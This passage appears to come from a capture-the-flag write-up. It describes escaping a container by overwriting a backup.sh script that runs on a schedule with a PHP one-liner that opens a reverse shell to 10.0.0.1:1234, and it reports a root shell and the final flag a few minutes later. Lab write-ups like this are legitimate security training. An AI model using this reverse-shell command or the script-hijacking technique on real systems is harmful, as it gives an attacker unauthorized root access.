 The [backup.sh](http://backup.sh) script apparently makes a compressed file of /root/container. It may be an automatic process being executed every few minutes by the real machine? It worth a try to change the content of this script with one to obtain a reverse shell:

 `echo "php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'" > backup.sh`

<figure><img src="../../.gitbook/assets/dogcat41.png" alt=""><figcaption></figcaption></figure>

And after few minutes we obtained a reverse shell. We are logged as root and the last flag is in the current folder.